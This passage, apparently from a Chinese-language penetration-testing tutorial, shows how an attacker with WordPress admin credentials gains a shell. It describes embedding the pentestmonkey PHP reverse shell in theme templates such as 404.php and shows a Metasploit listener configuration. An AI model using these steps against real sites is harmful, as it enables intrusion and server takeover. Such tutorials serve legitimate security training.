 得到用户名密码 may/123456  
得到管理员用户密码就可以使用后台 getshell 的常用手法 下文将演示常见方法

### 方法 1、修改模板

后台 -> 外观 -> 编辑  
通过在 index.php、404.php 等模板中嵌入恶意代码进行正向或反连 shell  
嵌入 php\_reverse\_shell.php 代码  
[https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)  
[![](assets/1706513536-aab1d1c5253bef60bcc98f9fc85a4975.png)](https://cdn.nlark.com/yuque/0/2024/png/21402865/1705928239544-9197060c-d7fb-4b21-b6de-30e21ee3b009.png#averageHue=%23e2e2e2&clientId=uc39f9627-399e-4&from=paste&height=853&id=u09e9adf9&originHeight=1706&originWidth=3094&originalType=binary&ratio=2&rotation=0&showTitle=false&size=488325&status=done&style=none&taskId=u435abfea-c3db-406b-859c-143b26626fd&title=&width=1547)  
使用 metasploit 等工具建立监听

```bash
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (php/reverse_php):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  0.0.0.0          yes       The listen address (an interface may be specified)
   LPORT  9999             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```
